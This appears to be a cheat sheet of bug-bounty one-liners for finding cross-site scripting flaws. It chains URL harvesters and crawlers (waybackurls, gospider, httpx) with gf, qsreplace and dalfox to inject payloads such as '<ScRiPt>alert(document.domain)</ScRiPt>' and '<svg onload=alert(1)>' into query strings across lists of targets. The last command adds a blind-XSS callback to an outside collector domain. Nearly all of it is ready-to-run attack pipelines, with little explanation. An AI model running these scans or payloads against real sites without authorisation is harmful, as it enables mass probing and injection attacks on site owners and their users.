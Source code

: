 ## Gxss with single target
> @KathanP19
```bash
echo "testphp.vulnweb.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```

## XSS using gf with single target
> @infosecMatter
```bash
echo "http://testphp.vulnweb.com/" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf xss | anew 
```

## XSS without gf
> HacktifyS
```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '<ScRiPt>alert(document.domain)</ScRiPt>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<ScRiPt>alert(document.domain)</ScRiPt>" && echo "$host \033[0;31m" Vulnerable;done
```
`or`
```bash
gospider -S target.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | grep '=' |qsreplace '<ScRiPt>alert(document.domain)</ScRiPt>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<ScRiPt>alert(document.domain)</ScRiPt>" && echo "$host \033[0;31m" Vulnerable;done
```

## XSS qsreplace
> @KingOfBugBounty
```bash
gospider -a -s https://site.com -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

## XSS httpx
> @ofjaah
```bash
httpx -l master.txt -silent -no-color -threads 300 -location 301,302 | awk '{print $2}' | grep -Eo "(http|https)://[^/"].* | tr -d '[]' | anew  | xargs -I@ sh -c 'gospider -d 0 -s @' | tr ' ' '\n' | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "<svg onload=alert(1)>"
```
## Automating XSS using Dalfox, GF and Waybackurls
> [Automating XSS using Dalfox, GF and Waybackurls](https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75)
```bash
cat test.txt | gf xss | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours-xss-hunter-domain(e.g yours.xss.ht)
```
